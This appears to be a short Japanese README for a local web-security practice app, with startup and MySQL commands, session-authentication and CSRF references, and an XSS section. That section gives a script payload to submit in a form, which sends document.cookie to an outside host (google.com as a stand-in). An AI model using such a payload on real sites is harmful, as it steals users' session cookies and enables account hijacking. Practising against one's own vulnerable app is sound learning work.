 ## 起動

```
npx nodemon index.js
```

```
dc up -d
dc exec mysql /bin/bash 
mysql -uroot -ptest
show databases;
use test;
show tables;

+-------------------+
| Tables_in_test_db |
+-------------------+
| users             |
+-------------------+

```

## XSS

以下をフォームに入れて送信する
```
<script type='text/javascript'>document.location='https://www.google.com?cookie=' + document.cookie;</script>
```

## 認証方法

[Session Authentication](https://roadmap.sh/guides/session-authentication)

## 参考
[脆弱なサイトと罠サイトを実際に作って学ぶ『CSRF』とその対策](https://www.hypertextcandy.com/csrf-hands-on-tutorial)
[ホワイトハッカーへの道　三歩目](https://qiita.com/ichimura/items/e91df821a32aefa21bda)
